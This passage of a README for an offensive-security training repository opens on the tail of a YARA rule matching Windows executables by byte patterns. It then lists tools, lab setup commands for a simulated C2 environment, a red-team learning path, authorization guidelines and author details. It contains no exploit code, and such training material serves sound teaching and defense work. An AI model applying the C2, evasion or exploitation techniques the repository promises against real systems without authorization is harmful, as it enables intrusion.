        $hex2 = { 4C 8B DC 49 89 5B 08 49 89 6B 10 49 89 73 18 }
    
    condition:
        uint16(0) == 0x5A4D and
        filesize < 500KB and
        (2 of ($str*)) or (1 of ($hex*))
}
```

📖 **[Full Detection Engineering Guide](resources/detection-rules.md)**

---

## 📋 Prerequisites

### Technical Knowledge Requirements

| Domain | Required Level | Recommended Resources |
|--------|----------------|----------------------|
| **Networking** | Advanced | TCP/IP, Routing, DNS, HTTP/HTTPS protocols |
| **Operating Systems** | Expert | Windows internals, Linux administration, macOS security |
| **Programming** | Advanced | Python, PowerShell, Bash, C/C++, Go |
| **Security Concepts** | Expert | Cryptography, authentication, access control |
| **Cloud Platforms** | Intermediate | AWS, Azure, GCP fundamentals |

### Software Requirements

```bash
# Required tools and frameworks (automated setup available)
- Python 3.9+
- PowerShell 7.x
- Docker & Docker Compose
- Virtual Machine software (VMware, VirtualBox, Hyper-V)
- Burp Suite Professional
- Wireshark
- Metasploit Framework
- Cobalt Strike (licensed) or Covenant/Mythic (open-source alternatives)
```

### Hardware Requirements

- **Processor**: Quad-core CPU (Intel i7/AMD Ryzen 7 or better)
- **RAM**: 16GB minimum, 32GB recommended
- **Storage**: 500GB SSD (for VMs and tooling)
- **Network**: Isolated lab environment or VPN access to authorized test networks

---

## 🚀 Installation & Setup

### Quick Start

```bash
# Clone the repository
git clone https://github.com/novusaevum/apt-adversarial-operations.git
cd apt-adversarial-operations

# Set up Python virtual environment
python3 -m venv venv
source venv/bin/activate  # On Windows: venv\Scripts\activate

# Install dependencies
pip install -r requirements.txt

# Run automated lab setup
./scripts/setup-lab.sh

# Verify installation
python tools/utilities/verify-setup.py
```

### Docker-Based Lab Environment

```bash
# Build the complete APT simulation environment
docker-compose up -d

# Access components:
# - Kali Linux workstation: http://localhost:6080
# - Vulnerable targets: http://localhost:8080
# - C2 infrastructure: http://localhost:50050
# - SIEM dashboard: http://localhost:5601
```

### Manual Setup Guide

Detailed step-by-step setup instructions available at: [Installation Guide](docs/INSTALLATION.md)

---

## 🎯 Learning Path

### Beginner Track (Weeks 1-4)
1. ✅ Fundamentals of networking and protocols
2. ✅ Basic reconnaissance techniques
3. ✅ Understanding vulnerability exploitation
4. ✅ Introduction to Metasploit Framework

### Intermediate Track (Weeks 5-12)
1. ✅ Advanced enumeration and OSINT
2. ✅ Custom exploit development
3. ✅ Privilege escalation techniques
4. ✅ Credential access methods
5. ✅ Lateral movement strategies

### Advanced Track (Weeks 13-24)
1. ✅ Building custom C2 frameworks
2. ✅ Advanced persistence mechanisms
3. ✅ Defense evasion and anti-forensics
4. ✅ APT simulation and red team operations
5. ✅ Threat intelligence and attribution

### Expert Track (Weeks 25+)
1. ✅ Zero-day research and development
2. ✅ Advanced memory manipulation
3. ✅ Kernel-level exploitation
4. ✅ Firmware and hardware attacks
5. ✅ Full-scope APT campaign simulation

---

## 🔐 Legal & Ethical Guidelines

### Authorization Requirements

**⚠️ YOU MUST HAVE EXPLICIT WRITTEN AUTHORIZATION BEFORE TESTING ANY SYSTEM**

```
╔══════════════════════════════════════════════════════════════╗
║                    AUTHORIZATION CHECKLIST                   ║
╠══════════════════════════════════════════════════════════════╣
║ ☐ Written authorization from system owner                   ║
║ ☐ Defined scope of engagement (IP ranges, domains)          ║
║ ☐ Rules of engagement (ROE) documented                      ║
║ ☐ Emergency contact information                             ║
║ ☐ Data handling and NDA agreements                          ║
║ ☐ Legal counsel review                                      ║
║ ☐ Insurance coverage verified                               ║
╚══════════════════════════════════════════════════════════════╝
```

### Ethical Hacking Principles

1. **Obtain Authorization**: Never test without explicit permission
2. **Minimize Impact**: Avoid causing damage or disruption
3. **Maintain Confidentiality**: Protect discovered vulnerabilities
4. **Report Responsibly**: Follow coordinated disclosure practices
5. **Respect Privacy**: Handle personal data with care
6. **Stay Legal**: Understand applicable laws in your jurisdiction

### Recommended Certifications

- **CEH (Certified Ethical Hacker)** - EC-Council
- **OSCP (Offensive Security Certified Professional)** - Offensive Security
- **GPEN (GIAC Penetration Tester)** - SANS Institute
- **CRTO (Certified Red Team Operator)** - Zero-Point Security
- **PNPT (Practical Network Penetration Tester)** - TCM Security

---

## 🤝 Contributing

Contributions are welcome! This repository thrives on community expertise.

### How to Contribute

1. **Fork** the repository
2. **Create** a feature branch (`git checkout -b feature/advanced-technique`)
3. **Commit** your changes (`git commit -m 'Add advanced EDR bypass technique'`)
4. **Push** to the branch (`git push origin feature/advanced-technique`)
5. **Open** a Pull Request

### Contribution Guidelines

- **Code Quality**: All code must be enterprise-grade, well-commented, and tested
- **Documentation**: Include comprehensive markdown documentation
- **Attribution**: Credit original research and tools
- **Ethics**: Ensure contributions follow ethical hacking principles
- **Testing**: Verify in isolated lab environment before submission

### Areas for Contribution

- 🔧 Custom tool development
- 📝 Additional technique documentation
- 🔍 APT case study analysis
- 🛡️ Detection rule creation
- 🌐 Translation to other languages
- 🎯 Lab scenario development

---

## 📚 Additional Resources

### Books
- *Red Team Field Manual* - Ben Clark
- *The Hacker Playbook 3* - Peter Kim
- *Advanced Penetration Testing* - Wil Allsopp
- *Operator Handbook* - Joshua Picolet
- *RTFM: Red Team Field Manual* - Ben Clark

### Online Resources
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [NIST Cybersecurity Framework](https://www.nist.gov/cyberframework)
- [OWASP Testing Guide](https://owasp.org/www-project-web-security-testing-guide/)
- [Red Team Development and Operations](https://redteam.guide/)
- [Awesome Red Teaming](https://github.com/yeyintminthuhtut/Awesome-Red-Teaming)

### Training Platforms
- [HackTheBox](https://www.hackthebox.eu/)
- [TryHackMe](https://tryhackme.com/)
- [Offensive Security Labs](https://www.offensive-security.com/)
- [PentesterLab](https://pentesterlab.com/)
- [SANS Cyber Ranges](https://www.sans.org/cyber-ranges/)

---

## 📊 Repository Statistics

```
Total Documentation: 500+ pages
Code Examples: 150+ enterprise-grade scripts
MITRE ATT&CK Coverage: 180+ techniques
Lab Scenarios: 25+ hands-on exercises
Tool Integrations: 50+ security tools
```

---

## 📜 License

This project is licensed under the **MIT License** - see the [LICENSE](LICENSE) file for details.

```
MIT License - Educational Use Only

Permission is granted for educational, research, and authorized testing purposes only.
Commercial use requires explicit written permission from the author.
```

---

## 👤 Author & Acknowledgments

**Wan Mohamad Hanis bin Wan Hassan**
- 🎓 CEH v12 Certified Ethical Hacker
- 🏆 100+ Professional Certifications (Google, IBM, EC-Council, Cisco, HubSpot)
- 🔬 Security Researcher | Red Team Operator | AI/ML Specialist
- 🌐 OSINT & Adversarial Tradecraft Expert

### Connect
- 💼 [LinkedIn](https://www.linkedin.com/in/wanmohamadhanis)
- 🐙 [GitHub](https://github.com/novusaevum)
- 🏅 [Credly](https://www.credly.com/users/triumphanthanis)
- 🌐 [Portfolio](https://wanmohamadhanis.my.canva.site/wmh-portfolio)

### Acknowledgments
Special thanks to the cybersecurity community, threat intelligence researchers, and red team operators who continuously advance the field of offensive security.

---

## ⚠️ Final Warning

```
╔══════════════════════════════════════════════════════════════════════╗
║                                                                      ║
║  This repository contains advanced adversarial techniques that      ║
║  can cause significant harm if misused.                             ║
║                                                                      ║
║  USE RESPONSIBLY. USE ETHICALLY. USE LEGALLY.                       ║
║                                                                      ║
║  "With great power comes great responsibility."                     ║
║                                                                      ║
╚══════════════════════════════════════════════════════════════════════╝
```

---

<div align="center">

**⭐ If you find this repository valuable, please star it to support continued development ⭐**

**Built with 🔥 by security researchers, for security researchers**

</div>

---

## 📅 Changelog

### Version 1.0.0 (January 2025)
- ✅ Initial release
- ✅ Complete APT kill chain documentation
- ✅ 150+ code examples
- ✅ MITRE ATT&CK framework integration
- ✅ Custom C2 framework implementation
- ✅ 25+ lab scenarios
- ✅ Detection and defense guidelines

### Upcoming Features
- 🔜 Advanced malware analysis modules
- 🔜 Mobile device exploitation techniques
- 🔜 IoT and embedded systems attacks
- 🔜 Cloud-native security testing
- 🔜 AI/ML adversarial techniques
- 🔜 Quantum-resistant cryptography testing

---

**Last Updated**: January 2025  
**Repository Version**: 1.0.0  
**Maintained By**: Wan Mohamad Hanis bin Wan Hassan
